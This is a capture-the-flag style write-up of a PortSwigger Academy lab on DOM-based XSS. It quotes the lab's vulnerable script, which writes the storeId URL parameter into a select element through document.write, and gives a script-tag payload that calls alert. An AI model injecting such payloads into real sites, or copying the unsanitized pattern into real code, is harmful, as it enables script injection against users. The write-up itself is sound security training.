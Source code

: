 # Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element. 
* Goal: To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function. 

## Recon
1. Find the injection place
I used string search to find `location.search` in each sub-page source.
Here is the interesting code:
    :::spoiler Source Code
    ```javascript!
    ...
    <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');
        document.write('<select name="storeId">');
        if(store) {
            document.write('<option selected>'+store+'</option>');
        }
        for(var i=0;i<stores.length;i++) {
            if(stores[i] === store) {
                continue;
            }
            document.write('<option>'+stores[i]+'</option>');
        }
        document.write('</select>');
    </script>
    ...
    ```
    :::
2. Try type something about `storeID` as URL GET parameter
Payload: `/product?productId=1&storeId=abc`
![](https://i.imgur.com/KKbTF8f.png)
You can see that this is a perfect injection place


## Exp
Payload: `/product?productId=1&storeId=<script>alert(123);</script>`
:::spoiler Success Screenshot
![](https://i.imgur.com/bjEoUzh.png)
:::

## Reference